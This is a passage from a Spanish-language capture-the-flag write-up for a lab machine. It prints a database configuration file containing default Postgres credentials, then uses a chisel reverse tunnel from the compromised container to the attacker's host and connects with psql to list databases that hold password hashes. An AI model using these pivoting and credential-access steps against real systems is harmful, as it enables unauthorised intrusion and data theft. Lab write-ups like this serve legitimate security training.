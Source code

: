 ```py
import os

from sqlalchemy import (Column, DateTime, Integer, String, Table, create_engine, MetaData)
from sqlalchemy.sql import func
from databases import Database

# Database url if none is passed the default one is used
DATABASE_URL = os.getenv("DATABASE_URL", "postgresql://postgres:postgres@172.22.0.1/mentorquotes_db")

# SQLAlchemy for quotes
engine = create_engine(DATABASE_URL)
metadata = MetaData()
quotes = Table(
    "quotes",
    metadata,
    Column("id", Integer, primary_key=True),
    Column("title", String(50)),
    Column("description", String(50)),
    Column("created_date", DateTime, default=func.now(), nullable=False)
)

# SQLAlchemy for users
engine = create_engine(DATABASE_URL)
metadata = MetaData()
users = Table(
    "users",
    metadata,
    Column("id", Integer, primary_key=True),
    Column("email", String(50)),
    Column("username", String(50)),
    Column("password", String(128) ,nullable=False)
)


# Databases query builder
database = Database(DATABASE_URL)
```

Para interactuar con la base de datos, nos haremos un Port Forwarding con chisel

```shell
# Contenedor
./chisel client 10.10.14.48:1234 R:5432:172.22.0.1:5432

# Máquina atacante
./chisel server --port 1234 --reverse
```

Así que ahora nos conectaremos a la base de datos, nos damos cuenta de que hay unso cuentos hashes

```shell
❯ psql -h 10.10.XX.XX -U "postgres" -p 5432
Password for user postgres: 
psql (14.5 (Debian 14.5-2), server 13.7 (Debian 13.7-1.pgdg110+1))
Type "help" for help.

postgres=# \list
                                    List of databases
      Name       |  Owner   | Encoding |  Collate   |   Ctype    |   Access privileges   
-----------------+----------+----------+------------+------------+-----------------------
 mentorquotes_db | postgres | UTF8     | en_US.utf8 | en_US.utf8 | 
 postgres        | postgres | UTF8     | en_US.utf8 | en_US.utf8 | 
 template0       | postgres | UTF8     | en_US.utf8 | en_US.utf8 | =c/postgres          +
                 |          |          |            |            | postgres=CTc/postgres
```